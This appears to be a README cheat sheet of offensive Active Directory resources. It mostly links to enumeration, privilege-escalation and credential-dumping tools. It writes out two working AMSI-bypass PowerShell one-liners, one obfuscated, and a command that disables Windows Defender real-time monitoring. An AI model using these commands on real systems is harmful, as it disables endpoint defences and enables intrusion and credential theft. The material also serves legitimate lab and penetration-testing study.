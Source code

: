 # AD-Security-Resources

<p><h2>Setting up active directory lab :</h2>
<p>https://github.com/outflanknl/Invoke-ADLabDeployer 
<p> AutomatedLab - Works good for small labs based on HyperV
 
<p><h2>Local Computer Enumeration and Privesc : </h2>

<p>1. Bypass Execution Policy : 

<p>One of the 15 methods mentioned in the blog usually works.. </p>
<p>https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

<u>Notes :</u> Bypassing Powershell execution policy issues : </H2>


<p>2. AMSI Bypass for loading malicious scripts:
<p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<u>Few scripts that usually works quickly </u>
<p>sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<p>[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)</p>

<u>Detailed Article on this subject : </u>
https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation

<p>3. Constrained Language Mode :</p> 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/

<p>4. Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):</p>
Set-MpPreference -DisableRealtimeMonitoring $true

<p>5. Privesc on Local Computer </p>
Run Invoke-AllChecks 
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>


<H2>Domain Enumeration</h2>

<p><h3>1. ACL Enumeration and escalation :</h3></p>
<p>Some of the Active Directory object permissions and types that we as attackers are interested in:</p>
<p><b>GenericAll</b> - full rights to the object (add users to a group or reset user's password)
<p><b>GenericWrite</b> - update object's attributes (i.e logon script)
<p><b>WriteOwner</b> - change object owner to attacker controlled user take over the object
<p><b>WriteDACL</b> - modify object's ACEs and give attacker full control right over the object
<p><b>AllExtendedRights</b> - ability to add user to a group or reset password
<p><b>ForceChangePassword</b> - ability to change user's password
<p><b>Self (Self-Membership)</b> - ability to add yourself to a group
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

AD Module :
  https://github.com/samratashok/ADModule

<p>2. Bloodhound - Visualizing the attack patch and AD Objects
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation using Bloodhound data :
  https://github.com/GoFetchAD/GoFetch

<p>3. Tools for Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<p>4. Generate HTML report of AD Security Posture - Pingcastle :
  https://github.com/vletoux/pingcastle


<p><h2> References : </h2>
Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/

